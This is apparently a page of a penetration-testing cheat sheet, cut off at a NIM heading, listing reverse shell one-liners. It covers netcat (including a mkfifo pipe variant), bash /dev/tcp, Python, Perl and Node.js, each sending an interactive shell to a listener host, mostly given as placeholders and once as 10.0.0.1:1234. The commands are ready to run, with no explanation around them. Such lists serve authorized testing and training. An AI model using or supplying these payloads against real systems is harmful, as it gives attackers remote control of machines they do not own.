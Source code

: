 ## 8.2	NETCAT

### 8.2.1	-

`nc -e /bin/sh <LISTENER_IP> <LISTENER_PORT>`

### 8.2.2	-

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <LISTENER_IP> <LISTENER_PORT> >/tmp/f`

## 8.3	BASH

### 8.3.1	-

`bash -i >& /dev/tcp/<LISTENER_IP>/<LISTENER_PORT> 0>&1`


## 8.4	PYTHON

### 8.4.1	-

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## 8.5	PERL

### 8.5.1	-

`perl -e 'use Socket;$i="<LISTENER_IP>";$p=<LISTENER_PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

## 8.6	NODEJS

### 8.6.1	-

```
var net = require("net"), sh = require("child_process").exec("/bin/bash");

var client = new net.Socket();

client.connect(<LISTENER_PORT>, "<LISTENER_IP>", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);

sh.stderr.pipe(client);});
```

## 8.7	NIM
